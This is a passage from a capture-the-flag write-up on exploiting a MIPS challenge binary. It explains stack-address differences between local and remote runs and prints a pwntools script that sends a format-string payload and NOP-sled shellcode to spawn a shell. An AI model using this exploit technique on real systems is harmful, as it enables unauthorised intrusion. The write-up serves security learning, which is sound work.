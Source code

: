 Seems like something is different on remote than on our local.

# Getting remote's stack addr

The exploit should work right? I thought ASLR was disabled? While ASLR is disabled, there are differences in the stack between our local and remote programs. The typical culprit of this is the `envp`, which stores the environment variables on the stack. To prove this, let's empty our `env` when executing in gdb:
```python
from pwn import *

context(arch='mips', bits=32, endian='big')

#io = remote('0.cloud.chals.io', 12490)
#io = process(['qemu-mips-static', '-L', '.', './chall'])
io = gdb.debug(args=['-L','.','./chall'], exe='./chall', env={},  gdbscript='''
        break *main
        break *main+88
        break *0x2b2ab1c4

        ''')


shellcode = asm(shellcraft.nop()) * 20
shellcode += asm(shellcraft.sh())

shellcode_len = len(shellcode)

print(hexdump(shellcode))
print(len(shellcode))


stack_addr = p32(0x2b2ab1c4)
io.sendline(b'%6$5c%1$'+ str(shellcode_len).encode() + b'c')
io.sendline(stack_addr)
io.sendline(shellcode)
io.sendline(b'D'*100)

io.interactive()
```

When we execute, we do in fact notice that the stack address that our shellcode is at and the stack address we jump to no longer match:
![[Pasted image 20240802233216.png]]

In order to get the correct stack address, we'll need to execute the program as closely as we can to remote. This means we'll execute the binary within the docker container, exactly how they have done it with the command:
```
./ynetd -p 1024 "./qemu-mips -L . chall"
```
